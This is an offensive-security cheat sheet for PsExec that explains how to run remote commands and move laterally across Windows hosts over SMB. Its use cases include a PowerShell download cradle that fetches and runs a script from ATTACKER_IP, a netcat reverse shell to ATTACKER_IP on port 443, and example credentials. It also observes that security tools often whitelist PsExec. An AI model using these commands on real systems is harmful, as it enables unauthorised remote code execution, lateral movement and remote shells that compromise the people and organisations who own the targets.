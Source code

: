 PsExec is a very versatile tool that is part of the [SysInternals](https://docs.microsoft.com/en-us/sysinternals/) suite developed by Mark Russinovich. It's intended to replace telnet-like applications and provide remote execution of processes on other systems through an interactive console.
Here's a concise PsExec cheat sheet tailored for offensive security operations:

---

### **PsExec Cheat Sheet**  
*For remote command execution and lateral movement via SMB*
### **Prerequisites**  

1. **Administrative Privileges**:  
   - The user authenticating to the target machine must be a member of the **Local Administrators group** on the target system.  
1. **ADMIN$ Share Availability**:  
   - The **ADMIN$** share (a hidden administrative share) must be accessible on the target machine.  
   - By default, this share is enabled on modern Windows systems and provides access to the `C:\Windows` directory.  

3. **File and Printer Sharing Enabled**:  
   - The **File and Printer Sharing** feature must be turned on.  
   - This is typically enabled by default on modern Windows Server systems and allows remote access to shared resources.  

---

### **1. Basic Syntax**  
```powershell
./PsExec64.exe \\TARGET -u DOMAIN\user -p password [options] <command>
```

---

### **2. Common Flags**  
| **Flag** | **Description**                                  |
|----------|--------------------------------------------------|
| `-i`     | Interactive session (desktop interaction)        |
| `-s`     | Run as SYSTEM account                            |
| `-d`     | Don't wait for process to exit                   |
| `-c`     | Copy local file to remote system                 |
| `-h`     | Run with elevated token (admin privileges)       |
| `-accepteula` | Bypass EULA prompt                          |

---

### **3. Common Use Cases**  
**A. Spawn interactive CMD:**  
```powershell
./PsExec64.exe -i \\FILES04 -u corp\jen -p Nexus123! cmd
```

**B. Run single command:**  
```powershell
./PsExec64.exe \\192.168.1.10 -u admin -p Passw0rd! hostname
```

**C. Execute PowerShell payload:**  
```powershell
./PsExec64.exe \\TARGET -u user -p pass powershell -nop -c "IEX(New-Object Net.WebClient).DownloadString('http://ATTACKER_IP/script.ps1')"
```

**D. File transfer + execution:**  
```powershell
./PsExec64.exe -c \\TARGET -u user -p pass C:\Tools\nc.exe "C:\Windows\Temp\nc.exe -e cmd ATTACKER_IP 443"
```


### **4. Key Requirements**  
- TCP 445 (SMB) access  
- Target must have Admin$ share enabled  
- User credentials with local admin privileges  
- PsExec allowed by AV/EDR (whitelisted in many environments)
